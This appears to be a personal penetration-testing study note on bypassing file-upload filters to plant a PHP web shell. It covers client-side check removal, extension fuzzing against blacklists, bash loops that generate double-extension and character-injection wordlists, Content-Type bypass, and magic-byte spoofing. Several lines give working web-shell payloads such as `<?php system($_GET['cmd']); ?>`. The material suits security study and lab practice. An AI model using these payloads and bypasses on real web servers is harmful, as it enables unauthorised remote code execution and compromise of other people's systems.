 No validation filters
1. Fuzz the extension, see if php, asp, or aspx etc (or use Wappalyzer)
2. Upload the shell in that extension 


## Client-Side Validation Bypass
to bypass
1. modify upload request 
2. manipulate front-end code to disable these validations

### Modify upload request
in burp, you just have to modify the filename to shell.php and the content to `<?php system($_REQUEST['CMD']); ?>` `<?php system($_GET["cmd"]); ?>`

### Modify front-end code
```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```

in the accept="" just add in ur file extension and then remove the javascript function `checkFile(this)` 

## Server-Side Validation Bypass
### Blacklist Filter 
say there is like a blacklist of `php, php7, phps` etc 
do an extension fuzzing to see what extensions it allows 

intercept the request with burp, change the filename in the request to fuzz the common php extends in PayloadsAllTheThings then sort it by length to see what is approved 

** rmb to disable URL-encode these characters in the bottom right

then just change the extension to the approved extension and then upload it and then go to the url 



### Whitelist Filter
generally more secure than blacklist 

if it uses regex -> we can try to have double extensions
```
black=('.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm')
white=(".png" ".jpg" ".jpeg")

for b in "${black[@]}"; do
	for w in "${white[@]}"; do
		echo "shell$b$w" >> nwl.txt
		echo "shell$w$b" >> nwl.txt
	done
done
```

can try character injection also

try fuzzing with this generated wordlists
```

exts=('.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm')
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in "${exts[@]}"; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

```

## Type Filters
filtering using Content-Type Header or File Content 

```
/usr/share/seclists/Discovery/Web-Content/web-all-content-types.txt
```
you might also just want to grep the things that start with `image/` and create a new file 

go to burp intercepter and try this 

### Magic Bytes 
add the allowed magic bytes at the start of the content to make them believe it should be allowed
```
GIF8
<?php system($_REQUEST['cmd']); ?>
```

![](Assets/Pasted%20image%2020250705102934.png)
